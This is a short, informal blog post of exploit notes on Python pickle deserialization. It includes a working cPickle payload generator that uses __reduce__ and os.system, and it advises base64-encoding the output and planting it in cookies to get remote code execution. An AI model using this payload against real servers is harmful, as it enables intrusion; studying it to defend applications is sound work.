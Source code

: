 ```yaml
---
title: pickle serializatoin
published: 2024-06-24
description: 'some picle stuff with serializatoin in java /javascript'
image: './move.gif'
tags: [serialization,exploit]
category: 'serialization'
draft: false
---
```


pickle shit is basically a python / could as well be js i guess , it helps serialize and reserialize objects , you can check js files or decode files to identify the pickle format which is usually something like that:
```json
	Hack
(dp1
S'test1'
p2
S'test'
p3
sS'test2'
p4
S'retest'
p5
sb.
```

+ one thing to pay attention to is that , to pickle you payload and get the shell or the RCE we are after you need to pickle on the same platform as the server runs at , win/unix .
+ so to create a milecious object just use the script :
```python
import cPickle
import os
class Blah(object):
  def __reduce__(self):
    return (os.system,("command to run ",)) 
h = Blah()
print cPickle.dumps(h)
```
now all you need is execute this and encode it as base64 and put in where it shall be exploited like in cookies for example.
+ you can use You can bypass the limitation of platform by using subprocess with \_\_import\_\_
+  finding what is managed by the application/framework natively (the session mechanism) and what has been added by the developer is the KEY.
+ 

